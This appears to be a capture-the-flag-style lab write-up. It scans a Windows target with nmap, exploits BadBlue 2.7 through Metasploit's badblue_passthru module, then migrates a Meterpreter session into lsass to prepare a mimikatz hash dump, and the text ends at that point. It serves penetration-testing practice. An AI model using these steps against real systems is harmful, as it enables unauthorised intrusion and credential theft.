 > 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340)
>
> - Target IP: `10.2.29.32`
> - Dumping passwords hashes with **mimikatz**
> - Both Kali Machine and Attacker/Victim Windows machine are provided

### Enumeration & Exploitation

```bash
nmap 10.2.29.32
```

```bash
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

```bash
nmap -sV -p 80 10.2.29.32
```

```bash
80/tcp open  http    BadBlue httpd 2.7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- 📌 Exploit **BadBlue 2.7** with `metasploit`

```bash
msfconsole -q
```

```bash
search badblue
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.29.32
run
```

### Privilege Escalation

```bash
sysinfo
getuid
pgrep lsass
migrate 768
```
